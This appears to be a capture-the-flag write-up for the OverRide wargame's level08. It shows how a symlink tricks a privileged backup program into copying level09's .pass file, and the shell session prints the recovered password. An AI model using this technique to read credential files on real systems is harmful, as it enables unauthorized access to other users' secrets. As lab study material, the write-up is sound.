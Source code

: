 ## Project README: Finding flag08

We have a small program, after decompile it, we gain the [source code](./source).
The program seems to open a file a create a back up of the file given as argument.

### Analysis

Since we can make a backup of file and the rogram is made by **level09**, we want to generate a back up of `/home/users/level09/.pass`.

### Progress

To do so, we try to create a file called `/home/users/level09/.pass` into `level08` directory but we cannot do this, bash doesn't allow it.

So we decided to try a symlink with the file we want to open and put it into our current directory:

```sh
level08@OverRide:~$ ln -s /home/users/level09/.pass .file
level08@OverRide:~$ ./level08 .file
level08@OverRide:~$ cat backups/.file 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

And voila.
